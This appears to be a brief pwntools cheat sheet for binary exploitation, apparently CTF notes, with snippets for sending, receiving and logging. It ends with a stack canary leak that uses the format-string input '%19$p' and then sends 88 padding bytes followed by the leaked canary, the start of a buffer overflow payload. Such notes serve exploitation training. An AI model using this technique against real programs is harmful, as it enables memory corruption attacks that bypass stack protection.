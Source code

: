 *Examples*

*send one line*
io.sendline("")


*rec until* 
io.recvuntil("")


*output for debug*
info("")


*recv canary*
io.recvuntil("string")
io.sendline("%19$p")
canary = io.recvline().strip() 
*print canary for output*
info(f"canary = {canary}")
*send canary in payload*
io.sendline(("A"*88).encode()+p64(int(canary, base=16)))
